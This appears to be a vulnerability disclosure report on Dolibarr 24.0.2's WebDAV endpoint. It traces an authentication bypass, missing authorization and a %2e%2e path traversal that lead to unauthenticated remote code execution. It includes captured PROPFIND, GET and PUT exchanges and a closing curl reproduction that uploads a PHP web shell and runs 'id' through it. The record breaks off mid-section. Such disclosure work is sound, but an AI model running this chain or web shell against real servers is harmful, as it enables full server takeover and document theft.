





### Dolibarr WebDAV Arbitrary File Write → Unauthenticated / Any-Authenticated-User Remote Code Execution

**Severity**: [Critical]
**Authentication requirement**: [Unauthenticated (Root Cause A / Root Cause C) / Any authenticated account, including a zero-permission account (Root Cause B)]
**Vulnerability type**: [Authentication bypass + missing authorization + path traversal / remote code execution]
**Affected version**: [24.0.2]
**Deployment prerequisites**: [see "Deployment Prerequisites"]

### Vulnerability Description

The WebDAV endpoint `dav/fileserver.php` of Dolibarr 24.0.2 allows unauthenticated visitors and any internal account (including zero-permission accounts) to write arbitrary files into the DAV roots `documents/dav/private`, `documents/dav/public` (when `DAV_ALLOW_PUBLIC_DIR` is enabled) and `documents/ecm` (when the ECM module and `DAV_ALLOW_ECM_DIR` are enabled), and ultimately to execute commands as the web server user `www-data`. When a request carries `?sabreAction=asset&assetName=a.png`, the query-string whitelist at `dav/fileserver.php:236-239` keeps `Auth\Plugin` from being mounted; Sabre relies on a plugin returning `false` to veto at `beforeMethod:PUT`, `beforeBind` and `beforeCreateFile`, so with no plugin there is no veto and an unauthenticated PUT goes straight into the write flow; even when the authentication plugin is mounted normally, the `BasicCallBack` callback at `:117-179` only confirms whether the account is real and enabled without checking permissions, the permissions loaded at `:68` are never used, and the DAVACL plugin at `:257` is commented out, so any single enabled non-external account (including an account with zero document permissions) can write just as well. At the sink, `FS\Directory::createFile()` calls `file_put_contents()` directly (`DAV/FS/Directory.php:46`), rejecting neither dotfiles nor executable extensions and performing no `.noexe` rename, with the file name and the content both controlled by the attacker.

After the write, a one-level `%2e%2e` traversal places PHP into `<data_root>/website/temp/`, where the `include_once` of `public/website/index.php` executes it. An unauthenticated attacker only has to PUT one PHP template and perform one anonymous GET to execute commands; any authenticated account, even without any document permission, can accomplish the same write. The affected scope is the files under `<data_root>` (one parent level up when traversing), and the execution identity is the web server user.

### Deployment Prerequisites

**Prerequisite (data root outside the webroot, installer default layout)**


| Prerequisite | Requirement |
| --- | --- |
| DAV module `MAIN_MODULE_DAV=1` | **Required** |
| ECM module `MAIN_MODULE_ECM=1` | **Required** |
| `DAV_ALLOW_ECM_DIR=1` | **Required** |
| Website module `MAIN_MODULE_WEBSITE=1` | **Required** |
| `<data_root>` writable by www-data | Required |
| Write target | `<data_root>/website/temp/page1.tpl.php` |
| Execution method | `GET /public/website/index.php?website=temp&pageid=1&pageref=x` (PHP `include`) |

The three module switches are enabled under `Setup → Modules/Applications`; `DAV_ALLOW_ECM_DIR` is an **independent switch**, ticked under `Setup → Modules/Applications → DAV → Settings page (设置页)` (`admin/dav.php:59`), clickable only after the ECM module is enabled, and **off by default** (when unset the DAV root only has `/private`).

**Authentication requirements of the three root causes**


| Root cause | Authentication requirement | Location |
| -------------------------------------------- | ------------------------------------- | ------------------------------------------------------------------------------------------------------- |
| A Authentication plugin bypassed | **No authentication required** | The unauthenticated RCE follows A + C |
| B Missing authorization (`BasicCallBack` authenticates but does not authorize) | Any real account, **including zero-permission accounts** | **Not another unauthenticated path**. Its only role is to prove that "fixing A alone is ineffective" — once A is fixed anonymous users cannot get in, but any authenticated account can still write |
| C Path traversal | Follows A or B and introduces no new authentication requirement of its own | Only widens the write target range (from the DAV root to the whole `<data_root>`), without changing the authentication requirement |

Root cause C writes the file into `<data_root>/website/`, where it is executed by a server-side `include`, independent of whether documents is reachable over the web.

### Root Cause C: `%2e%2e` Bypasses `Uri\normalize()` — Path Traversal Within the DAV Root

> All paths in this section are full paths relative to `DOL_DOCUMENT_ROOT`.

**Location**: `includes/sabre/sabre/uri/lib/functions.php` `normalize()`; `includes/sabre/sabre/dav/lib/DAV/Server.php:566 calculateUri()`

```php
// normalize(): checks .. first, decodes afterwards
switch ($pathPart) {
    case '..': array_pop($newPathParts); break;
    default:   $newPathParts[] = rawurlencode(rawurldecode($pathPart));   // %2e%2e decodes to ..
}
// calculateUri(): decodePath only after normalize, .. enters node resolution as-is
$uri = Uri\normalize($uri);
return trim(HTTP\decodePath(substr($uri, strlen($baseUri))), '/');
```

`%2e%2e` does not match `case '..'`, falls into default and is decoded to `..`, while `rawurlencode('..')` still outputs `..` ⇒ the normalized result keeps a literal `..` segment; `decodePath()` then hands it back to `Tree::getNodeForPath()`, and `FS\Directory::getChild('..')` takes the parent directory directly.

**Traversal depth: one level**


| Request | After Apache normalization | Result |
| ----------------------- | ----------------------------------- | -------------------------------------- |
| `/ecm/%2e%2e/` | `/dav/fileserver.php` (script still present) | Enters PHP → Sabre resolves to `<data_root>` |
| `/ecm/%2e%2e/%2e%2e/` | `/dav` (directory) | Apache 405/404, **PHP not executed** |

Apache's URL normalization also eliminates `fileserver.php` when `..` goes one level too far; once the script name is gone the request is no longer handed to PHP, and Sabre's second round of resolution cannot take place ⇒ the net effect is always one level.

**Scope**


| DAV root | Enabling condition | One-level traversal target |
| ----------- | -------------------------------------------- | --------------------------- |
| `private` | Default (added unconditionally) | `<data_root>/dav/` |
| `ecm` | `isModEnabled('ecm') && DAV_ALLOW_ECM_DIR` | The whole document tree under `<data_root>/` |
| `public`  | `DAV_ALLOW_PUBLIC_DIR`                     | `<data_root>/dav/`        |

**Observed in testing (unauthenticated, zero credentials, `DAV_ALLOW_ECM_DIR=1`)**

> Directory listing must use `PROPFIND` (with `Depth: 1`); `GET` only works on file nodes and returns **404** for collection nodes — the response body is sabre's `<d:error>` XML rather than Apache's default 404 page, which allows telling "PHP executed but the method is unsupported" apart from "the request never reached PHP".

```
PROPFIND /dav/fileserver.php/ecm/%2e%2e/?sabreAction=asset&assetName=a.png
→ 207
  /ecm/../facture/  /ecm/../agenda/  /ecm/../produit/  /ecm/../users/
  /ecm/../doctemplates/  /ecm/../install.lock  /ecm/../dav/ ...

GET  /dav/fileserver.php/ecm/%2e%2e/facture/FA2026-001.pdf?…
→ 200  <file content>

PUT  /dav/fileserver.php/ecm/%2e%2e/facture/evil.pdf?…
→ 201  → <data_root>/facture/evil.pdf  owner www-data
```

`waf.inc.php` only scans for a literal `../` in `PHP_SELF` / `QUERY_STRING` / `$_POST`, and **does not block `%2e%2e`**; `%252e%252e` is blocked with `403 SQL or Script injection protection`.

**Test environment**: `$dolibarr_main_data_root` is `/var/www/documents` (outside the webroot); `PROPFIND /ecm/%2e%2e/` returns 207 and `PUT` returns 201.

### Root Cause A / Root Cause B Data Flow (Source → Sink)

> **Path convention**: in this section, paths beginning with `DAV/`, `event/`, `http/` are relative to the sabre library root `includes/sabre/sabre/`; paths beginning with `dav/`, `main.inc.php`, `core/` are relative to `DOL_DOCUMENT_ROOT`.


| # | Attacker-controlled input | Form | Destination |
| ---------- | ------------------------------------ | --------------------------------------------------- | ------------------------------------------------------------------------------------------------ |
| SOURCE① | URL path of the PUT (same for both root causes) | `/dav/fileserver.php/ecm/%2e%2e/website/temp/page1.tpl.php` | ↓Stage 3`$path` → ↓Stage 4 `$name` → ↓Stage 5 `$this->path` |
| SOURCE② | Query string (**needed only for root cause A**) | `?sabreAction=asset&assetName=a.png` | Stage 0`dav/fileserver.php:236` reads it from `$_SERVER["QUERY_STRING"]` → decides whether the Auth plugin is mounted |
| SOURCE③ | Body of the PUT (same for both root causes) | Arbitrary bytes | ↓Stage 3`$body` → ↓Stage 4 `$data` → ↓Stage 5 `file_put_contents()` |
| SOURCE④ | HTTP Basic credentials (**needed only for root cause B**) | `Authorization: Basic base64(<login>:<password>)` | Stage 0`dav/fileserver.php:66-69` takes the username and fetches the user, `dav/fileserver.php:117-179` the callback decides item by item |

```
SOURCE①: URL path of the unauthenticated PUT  — /dav/fileserver.php/ecm/%2e%2e/website/temp/page1.tpl.php
SOURCE②: query string of the unauthenticated PUT  — ?sabreAction=asset&assetName=a.png
SOURCE③: body of the unauthenticated PUT  — arbitrary bytes
  ↓ Stage 0  dav/fileserver.php top level     dav/fileserver.php:42-49,66,224,233-240,265   Root cause A: SOURCE② matches the whitelist → Auth plugin not mounted; root cause B: plugin mounted but the callback only answers authentication; ①③ wrapped into $this->httpRequest by Sapi::getRequest()
  ↓ Stage 1  Sabre\DAV\Server::start()  DAV/Server.php:240-253                 hands over to invokeMethod()
  ↓ Stage 2  Server::invokeMethod()      DAV/Server.php:452-480               $method="PUT"; beforeMethod:PUT has no subscriber so it passes, method:PUT is caught by CorePlugin
  ↓ Stage 3  CorePlugin::httpPut()        DAV/CorePlugin.php:40,428-513       ①→$path, ③→$body; node does not exist → createFile branch
  ↓ Stage 4  Server::createFile()         DAV/Server.php:1070-1098             emit('beforeBind')/DAV/Server.php:1074 and emit('beforeCreateFile')/DAV/Server.php:1094 both have no subscriber → DAV/Server.php:1098 $parent->createFile()
  ↓ Stage 5  FS\Directory::createFile()   DAV/FS/Directory.php:43-48            file_put_contents($newPath, $data)
SINK:   GET /public/website/index.php?website=temp&pageid=1&pageref=x → include_once executes page1.tpl.php → uid=33 www-data
```

**Stage 0 [Entry] `dav/fileserver.php` top level** — `dav/fileserver.php:42-49,224,233-240,265`

```
Entry URL:
  PUT /dav/fileserver.php/ecm/%2e%2e/website/temp/page1.tpl.php?sabreAction=asset&assetName=a.png HTTP/1.1
  Host: <target>
  Content-Length: <n>

  <?php echo "TPC_RCE_OK uid=".posix_geteuid();
```

```php
if (!defined('NOLOGIN')) {
    define("NOLOGIN", 1); // This means this output page does not require to be logged.
}
if (!defined('NOCSRFCHECK')) {
    define("NOCSRFCHECK", 1); // We accept to go on this page from external web site.
}
...
require "../main.inc.php";                                    // dav/fileserver.php:49
...
if (isset($_SERVER['PHP_AUTH_USER']) && $_SERVER['PHP_AUTH_USER'] != '') {   // dav/fileserver.php:66
    $user->fetch(0, $_SERVER['PHP_AUTH_USER']);
}
...
$server = new \Sabre\DAV\Server($nodes);                   // dav/fileserver.php:224  → ↓constructor wraps the request into an object
...
if ((!getDolGlobalString('DAV_ALLOW_PUBLIC_DIR')
    || !preg_match('/'.preg_quote(DOL_URL_ROOT.'/dav/fileserver.php/public', '/').'/', Sabre\Uri\normalize($_SERVER["PHP_SELF"])))
    && !preg_match('/^sabreAction=asset&assetName=[a-zA-Z0-9%\-\/]+\.(png|css|woff|ico|ttf)$/', $_SERVER["QUERY_STRING"])   // dav/fileserver.php:236  ← SOURCE② is read here
) {
    $server->addPlugin(new \Sabre\DAV\Auth\Plugin($authBackend));   // dav/fileserver.php:239  condition is false → not executed
}
...
$server->start();                                            // dav/fileserver.php:265  → ↓Stage 1 Sabre\DAV\Server::start()
```

> `dav/fileserver.php:236` reads SOURCE② from `$_SERVER["QUERY_STRING"]` and compares it character by character; a full match → the outer `if` short-circuits → `addPlugin()` at `dav/fileserver.php:239` is not executed, and the Sabre Server of this file has no authentication plugin at all.
> `dav/fileserver.php:43` defines `NOLOGIN` first, so the `require "../main.inc.php"` at `dav/fileserver.php:49` does not stop anonymous requests (see the next code block):
> **Summary of the input flow at this stage**: SOURCE② is consumed and takes effect here; SOURCE① and ③ are not used yet and are wrapped into `$this->httpRequest` by the `new Server()` constructor at `dav/fileserver.php:224` (see the next two code blocks), to be taken out at ↓Stage 3.

```php
// main.inc.php:1330-1336
if (!defined('NOLOGIN')) {
    // If the login is not recovered, it is identified with an account that does not exist.
    if (!$user->login) {
        accessforbidden();     // main.inc.php:1334  ← NOLOGIN is already defined, this line is unreachable
    }
}
```

> The `new \Sabre\DAV\Server($nodes)` at `main.inc.php:224` wraps the entire request into an object at construction time; SOURCE① and SOURCE③ enter here:

```php
// DAV/Server.php:231-234 (inside the constructor)
$this->sapi = $sapi ?? new HTTP\Sapi();
$this->httpResponse = new HTTP\Response();
$this->httpRequest = $this->sapi->getRequest();     // http/lib/Sapi.php:233  → ↓ http/lib/Sapi.php:41-57
$this->addPlugin(new CorePlugin());
```

> The constructor wraps the HTTP request into a `httpRequest` object here — the entry point through which SOURCE① and ③ move from the superglobals into the code world is in the next block.

```php
// http/lib/Sapi.php:41-57   Sapi::getRequest()
public static function getRequest(): Request
{
    $serverArr = $_SERVER;                          // http/lib/Sapi.php:43
    if ('cli' === PHP_SAPI) {
        $serverArr['REQUEST_URI'] = $_SERVER['REQUEST_URI'] ?? '/';
        $serverArr['REQUEST_METHOD'] = $_SERVER['REQUEST_METHOD'] ?? 'CLI';
    }
    $r = self::createFromServerArray($serverArr);  // http/lib/Sapi.php:52  SOURCE① enters $r->url via $_SERVER['REQUEST_URI']
    $r->setBody(fopen('php://input', 'r'));         // http/lib/Sapi.php:53  ← SOURCE③ is read here
    $r->setPostData($_POST);                        // http/lib/Sapi.php:54
    return $r;
}
```

> SOURCE① and SOURCE③ are stored in `$this->httpRequest` from here on; this stage does not use them yet, and they are taken out at ↓Stage 3.

**Stage 1 `Sabre\DAV\Server::start()` → calls ↓Stage 2 `Server::invokeMethod()`** — `DAV/Server.php:240-253`

```php
public function start()
{
    try {
        ...
        $this->invokeMethod($this->httpRequest, $this->httpResponse);   // DAV/Server.php:253  → ↓Stage 2
    }
}
```

> The input is handed to the `httpRequest` object unchanged; this stage only writes back the HTTP protocol version and sets the baseUrl, without processing anything.

**Stage 2 `Server::invokeMethod()` — the authentication plugin is present and passes, the broadcast continues** — `DAV/Server.php:452-480`

```php
public function invokeMethod(RequestInterface $request, ResponseInterface $response, $sendResponse = true)
{
    $method = $request->getMethod();                                    // DAV/Server.php:454  → "PUT"

    if (!$this->emit('beforeMethod:'.$method, [$request, $response])) { // DAV/Server.php:456  broadcasts "beforeMethod:PUT"; only a listener returning false vetoes
        return;
    }

    if (self::$exposeVersion) {
        $response->setHeader('X-Sabre-Version', Version::VERSION);
    }

    $this->transactionType = strtolower($method);

    if (!$this->checkPreconditions($request, $response)) {               // DAV/Server.php:466  only handles Lock/If headers
        $this->sapi->sendResponse($response);
        return;
    }

    if ($this->emit('method:'.$method, [$request, $response])) {        // DAV/Server.php:472  broadcasts "method:PUT"
        //                                                                 ↓Stage 3 caught by $server->on('method:PUT', [$this, 'httpPut']) at CorePlugin.php:40, passing $request (containing SOURCE①③) and $response
        $exMessage = 'There was no plugin in the system that was willing to handle this '.$method.' method.';
        ...
        throw new Exception\NotImplemented($exMessage);                   // CorePlugin.php:479
    }
}
```

> `DAV/Server.php:454` obtains the method name `"PUT"`, `DAV/Server.php:456` emits `beforeMethod:PUT` and `DAV/Server.php:472` emits `method:PUT`; both times `emit()` is what asks the plugins whether to veto. The implementation of `emit()` (`event/lib/WildcardEmitterTrait.php:85-113`) is the semantic baseline:
>
> ```php
> // event/lib/WildcardEmitterTrait.php:85-93,113
> public function emit(string $eventName, array $arguments = [], callable $continueCallBack = null): bool
> {
>     if (\is_null($continueCallBack)) {
>         foreach ($this->listeners($eventName) as $listener) {   // event/lib/WildcardEmitterTrait.php:88  iterates over all listeners of the event
>             $result = \call_user_func_array($listener, $arguments);
>             if (false === $result) {                            // event/lib/WildcardEmitterTrait.php:90  only an explicit false vetoes
>                 return false;                                   // event/lib/WildcardEmitterTrait.php:91
>             }
>         }
>     }
>     ...
>     return true;                                                // event/lib/WildcardEmitterTrait.php:113  no listeners, or listeners returning true/null → pass
> }
> ```
>
> **The `beforeMethod:PUT` broadcast at `DAV/Server.php:456` is the fork between the two root causes**:
>
> - **Root cause A (unauthenticated)**: the `addPlugin(Auth\Plugin)` at `dav/fileserver.php:239` is skipped by the whitelist, so `beforeMethod:*` has no subscribers; the empty loop in `emit()` runs to `event/lib/WildcardEmitterTrait.php:113` and returns `true`, passing.
> - **Root cause B (any login)**: `Auth\Plugin` is mounted normally and subscribes to `beforeMethod:*`. After successful authentication `beforeMethod()` returns `null`, so `false === $result` at `event/lib/WildcardEmitterTrait.php:90` does not hold and `emit()` returns `true`, passing. At this step the callback only confirms identity and does not judge permissions.
>
> The subscriber present is exactly the `Auth\Plugin` mounted at `dav/fileserver.php:239` in stage 0:
>
> ```php
> // DAV/Auth/Plugin.php:79-82
> public function initialize(Server $server)
> {
>     $server->on('beforeMethod:*', [$this, 'beforeMethod'], 10);   // DAV/Auth/Plugin.php:81  ← receiver of the broadcast from DAV/Server.php:456
> }
> ```
>
> Its `beforeMethod()` (`DAV/Auth/Plugin.php:117`) chain: `DAV/Auth/Plugin.php:135` `$authResult = $this->check($request, $response)` → `AbstractBasic::check()` (`DAV/Auth/Backend/AbstractBasic.php:91`) takes the Basic credentials from the request: `DAV/Auth/Plugin.php:101` no `Authorization` header → `[false, "No 'Authorization: Basic' header found…"]`; `DAV/Auth/Plugin.php:103-104` `validateUserPass()` fails → `[false, 'Username or password was incorrect']`; `DAV/Auth/Plugin.php:107` succeeds → `[true, $this->principalPrefix.$userpass[0]]`. `validateUserPass()` in the `BasicCallBack` backend is just a call to the callback from stage 0 (`DAV/Auth/Backend/BasicCallBack.php:50-54` `return $cb($username, $password);`):
>
> ```php
> // DAV/Auth/Plugin.php:117,135,150-152
> public function beforeMethod(RequestInterface $request, ResponseInterface $response)
> {
>     ...
>     $authResult = $this->check($request, $response);        // DAV/Auth/Plugin.php:135  ← callback returns true → [true, "principals/idord"]
>     if ($authResult[0]) {
>         $this->currentPrincipal = $authResult[1];
>         return;                                             // ← authentication succeeded: returns null normally, not false, so emit() does not veto
>     }
>     ...
>     if ($this->autoRequireLogin) {                          // DAV/Auth/Plugin.php:150
>         $this->challenge($request, $response);
>         throw new NotAuthenticated(implode(', ', $authResult[1]));   // DAV/Auth/Plugin.php:152  ← only reached when authentication fails; converted to 401 by Server::exec()
>     }
> }
> ```
>
> Cross-check against the live test: requests without credentials and with a wrong password get 401 (steps 1 and 2 of the exploitation flow), showing that the `Auth\Plugin` subscriber exists and works normally. After successful authentication `beforeMethod()` returns `null`, `!true` at `DAV/Server.php:456` is false, so there is no return; `DAV/Server.php:466` finds no precondition headers; `DAV/Server.php:472` broadcasts `method:PUT`. That event was registered in `CorePlugin::initialize()` (`DAV/CorePlugin.php:40`), and ↓Stage 3 is invoked.

**Stage 3 `CorePlugin` catches the broadcast from stage 2 → `httpPut()`** — `DAV/CorePlugin.php:40,428-513`

```php
// DAV/CorePlugin.php:38-42   CorePlugin registers itself with the Server as a method:PUT listener on construction
public function initialize()
{
    ...
    $server->on('method:PUT', [$this, 'httpPut']);   // DAV/CorePlugin.php:40  ← receiver of the broadcast from DAV/Server.php:472 in stage 2
}
```

> The `emit('method:PUT')` at `DAV/Server.php:472` in stage 2 walks the listener list (`event/lib/WildcardEmitterTrait.php:88-93`); `CorePlugin` registered an event of the same name at `DAV/CorePlugin.php:40` and is therefore invoked as `httpPut()`.
> During the walk, a listener returning `false` interrupts and vetoes; `CorePlugin::httpPut()` returns `null` (not `false`), so the broadcast continues down.

```php
// DAV/CorePlugin.php:428-513
public function httpPut(RequestInterface $request, ResponseInterface $response)
{
    $body = $request->getBodyAsStream();               // DAV/CorePlugin.php:430  ← SOURCE③ taken out
    $path = $request->getPath();                       // DAV/CorePlugin.php:431  ← SOURCE① taken out
    ...
    if ($this->server->tree->nodeExists($path)) {      // DAV/CorePlugin.php:485
        $node = $this->server->tree->getNodeForPath($path);      // DAV/CorePlugin.php:486
        if (!($node instanceof IFile)) {
            throw new Exception\Conflict('PUT is not allowed on non-files.');   // DAV/CorePlugin.php:490
        }
        if (!$this->server->updateFile($path, $body, $etag)) {   // DAV/CorePlugin.php:492
            return false;
        }
        ...
        $response->setStatus(204);                     // DAV/CorePlugin.php:500
    } else {                                          // DAV/CorePlugin.php:501  the first PUT takes this branch
        $etag = null;
        // If we got here, the resource didn't exist yet.
        if (!$this->server->createFile($path, $body, $etag)) {   // DAV/CorePlugin.php:504  → ↓Stage 4 Server::createFile()
            // For one reason or another the file was not created.
            return false;                              // DAV/CorePlugin.php:506
        }

        $response->setHeader('Content-Length', '0');   // DAV/CorePlugin.php:509
        if ($etag) {
            $response->setHeader('ETag', $etag);       // DAV/CorePlugin.php:511
        }
        $response->setStatus(201);                     // DAV/CorePlugin.php:513  ← the observed 201 on PUT comes from here
    }
}
```

> SOURCE① `ecm/../website/temp/page1.tpl.php` → `$path`, SOURCE③ → the `$body` byte stream, neither of them sanitized: the path does not strip dotfiles and the body is checked for neither extension nor executable content.
> This PUT (`page1.tpl.php`) takes the `createFile` branch at `DAV/CorePlugin.php:504` (the node does not exist on the first PUT), and `DAV/CorePlugin.php:513` returns **201**.

**Stage 4 `Server::createFile()`: both pre-write event checks have no subscribers → calls ↓Stage 5 `FS\Directory::createFile()`** — `DAV/Server.php:1070-1098`

```php
public function createFile($uri, $data, &$etag = null)
{
    list($dir, $name) = Uri\split($uri);      // DAV/Server.php:1072  $dir="ecm/../website/temp", $name=SOURCE① file name

    if (!$this->emit('beforeBind', [$uri])) { // DAV/Server.php:1074  first check: no subscriber → returns true, continues
        return false;
    }

    try {
        $parent = $this->tree->getNodeForPath($dir);       // DAV/Server.php:1079  resolves to documents/ecm/../website/temp
    } catch (Exception\NotFound $e) {
        throw new Exception\Conflict('Files cannot be created in non-existent collections');
    }

    if (!$parent instanceof ICollection) {
        throw new Exception\Conflict('Files can only be created as children of collections');   // DAV/Server.php:1085
    }

    $modified = false;
    if (!$this->emit('beforeCreateFile', [$uri, &$data, $parent, &$modified])) {   // DAV/Server.php:1094  second check: likewise no subscriber
        return false;
    }

    $etag = $parent->createFile($name, $data);                 // DAV/Server.php:1098  → ↓Stage 5 FS\Directory::createFile()
```

> SOURCE① is split by `Uri\split()` into `$dir` (directory resolution) and `$name` (the final on-disk file name), with no character filtering at all.
> This function performs **two** pre-write checks: `beforeBind` at `DAV/Server.php:1074` and `beforeCreateFile` at `DAV/Server.php:1094` (the latter also allows plugins to rewrite `$data`). Both return `true` because `Auth\Plugin` is not mounted — there is not a single veto before the data reaches the disk.
> In between, `DAV/Server.php:1084` only performs a type check (the target must be a directory), with no security semantics.

**Stage 5 [SINK] `FS\Directory::createFile()` → `file_put_contents`** — `DAV/FS/Directory.php:43-48`

```php
public function createFile($name, $data = null)
{
    $newPath = $this->path.'/'.$name;            // DAV/FS/Directory.php:45  $this->path = documents/ecm/../website/temp, $name = SOURCE①
    file_put_contents($newPath, $data);           // DAV/FS/Directory.php:46  ← SOURCE③ written to disk
    clearstatcache(true, $newPath);               // DAV/FS/Directory.php:47
}
```

> The PUT of this chain (`page1.tpl.php`) is a **new file**, going through the `createFile` branch of `CorePlugin::httpPut()` (`DAV/CorePlugin.php:504`) → this function, with `file_put_contents` at `DAV/FS/Directory.php:46`.
> The same directory also holds an `FS\File::put()` (`DAV/FS/File.php:23-27`), which is the path for **overwriting an existing file** (`CorePlugin.php:492` → `Server::updateFile()` (`DAV/Server.php:1123`) → `FS\File::put()`), also without any filtering when writing to disk — but the PUT of this chain does not reach it.
> SOURCE③ is passed through unchanged from stage 3 to here, not a single byte modified on the way. At the sink there is no dotfile check, no `isAFileWithExecutableContent()` (that is, no `.noexe` rename) and no extension whitelist. The observed on-disk permissions are `-r--r--r-- www-data www-data`, and the file name keeps the original `.php`.

**Checks on the same action on the REST API side of the same product** (`api/class/api_documents.class.php:1042-1050`):

```php
// We refuse cache files/dirs, upload using .. and pipes into filenames.
if (preg_match('/^\./', basename($src_file)) || preg_match('/\.\./', $src_file) || preg_match('/[<>|]/', $src_file)) {   // api/class/api_documents.class.php:1042
    dol_syslog("Refused to deliver file ".$src_file, LOG_WARNING);   // api/class/api_documents.class.php:1043
    throw new RestException(500, "Refused to deliver file ".$src_file);   // api/class/api_documents.class.php:1044
}
// The target file is validated likewise: api/class/api_documents.class.php:1049
```

> Same product, same "write an HTTP body to a file" action: the REST API path rejects dotfiles and renames executable content, while the WebDAV path does neither.
> Independent evidence: `PUT .../website/temp/page1.tpl.php` → **201**; executable content is accepted and written, and the file name is kept as-is.

**Comparison check within the same product** (an authorization model exists on the REST API document path):

```php
// api/class/api_documents.class.php:102-111 (read direction; the write direction is isomorphic from api/class/api_documents.class.php:205, mode='write')
$check_access = dol_check_secure_access_document($modulepart, $relativefile, $entity, DolibarrApiAccess::$user, '', 'read');   // api/class/api_documents.class.php:102
$accessallowed = $check_access['accessallowed'];
...
if (!$accessallowed) {
    throw new RestException(403);                  // api/class/api_documents.class.php:111
}
```

> `dol_check_secure_access_document()` (`core/lib/files.lib.php:3060`) checks permission bits per `modulepart` (e.g. `core/lib/files.lib.php:3223` `$fuser->hasRight('facture', $lire)`), and denies with 403 otherwise. This check is not on the path of this chain: the REST API path goes through the permission matrix first, while the WebDAV path only has authentication.
> Independent evidence: `PROPFIND` with the zero-document-permission account idord → **207**, `PUT` → **201**, `DELETE` ×3 → **204**, showing that no permission bits are consumed on the WebDAV path.

### Verifying the Vulnerability

After logging in, go to Home and select modules/applications on the left



Enable the dav module



Open the dav settings page and change the setting shown below to yes



Enable the ecm module

 

Enable the websites module


#### data root outside the webroot — traversal + Website template include

Root cause C writes PHP into `<data_root>/website/`, where the `include_once` of `public/website/index.php` executes it.

```php
// public/website/index.php
117: $accessallowed = 1;                                                    // no authorization
218: $original_file = $dolibarr_main_data_root.'/website/'.$websitekey.'/page'.$pageid.'.tpl.php';
266: include_once $original_file_osencoded;
```

The path is assembled server-side from `DOL_DATA_ROOT`, and `$websitekey` / `$pageid` are taken from the request and **not validated against the DB** (a failing `fetch()` at `public/website/index.php:184` does not `exit`, it only leaves `$pageref` empty). `<data_root>/website/temp/` is created automatically when the Website module is enabled, with no pre-existing site required.

##### Reproduction:

```bash
W='?sabreAction=asset&assetName=a.png'
T='http://127.0.0.1:8091'
curl --path-as-is -X PUT \
  --data-binary "<?php echo exec(\$_GET['cmd']); ?>" \
  "$T/dav/fileserver.php/ecm/%2e%2e/website/temp/page1.tpl.php$W"
curl "$T/public/website/index.php?website=temp&pageid=1&pageref=x&cmd=id"
```


**Two easy-to-miss points, either of which makes it fail**

